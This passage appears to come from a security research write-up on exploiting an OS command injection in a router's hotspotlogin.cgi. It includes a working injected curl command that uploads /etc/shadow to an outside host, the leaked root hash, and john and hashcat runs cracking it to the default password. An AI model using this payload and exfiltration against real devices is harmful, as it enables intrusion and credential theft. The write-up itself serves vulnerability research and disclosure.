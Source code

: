 As we can see the os command injection worked and we were able to get the passwd file using curl 

Now let's try with a reverse shell. I tried multiple reverse shells with bash ,ash and sh but without success. We need to find another solution.

## Shadow file

As the exploit run commandes using root privileges, let's read the /etc/shadow file

```bash
curl -v -o /dev/null "http://192.168.1.1/cgi-bin/hotspotlogin.cgi" -d 'send=1&uamip="; curl -X POST http://192.168.1.110:8000/upload -F "files=@/etc/shadow" #'
```

```
root:$1$o1tYRea4$blIAJ7l1GqkT8NTwcC41n1:15225:0:99999:7:::
daemon:*:0:0:99999:7:::
ftp:*:0:0:99999:7:::
network:*:0:0:99999:7:::
nobody:*:0:0:99999:7:::

```

We got the root hash. It's a md5crypt hash. Let's crack it using hashcat or john.

```bash
┌──(kali㉿kali)-[~]
└─$ john hash.txt
Created directory: /home/kali/.john
Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-long"
Use the "--format=md5crypt-long" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 128/128 AVX 4x3])
Will run 4 OpenMP threads
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Almost done: Processing the remaining buffered candidate passwords, if any.
Proceeding with wordlist:/usr/share/john/password.lst
Proceeding with incremental:ASCII
admin01          (?)     
1g 0:00:00:47 DONE 3/3 (2022-07-24 18:09) 0.02124g/s 105252p/s 105252c/s 105252C/s adoutt1..admarri
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 

```

```bash
hashcat -m 500 hash.txt /usr/share/wordlists/rockyou.txt 

$1$o1tYRea4$blIAJ7l1GqkT8NTwcC41n1:admin01
```

The root password is "admin01". It's the default one because we didn't change it in the web interface

Now let's try ssh to device
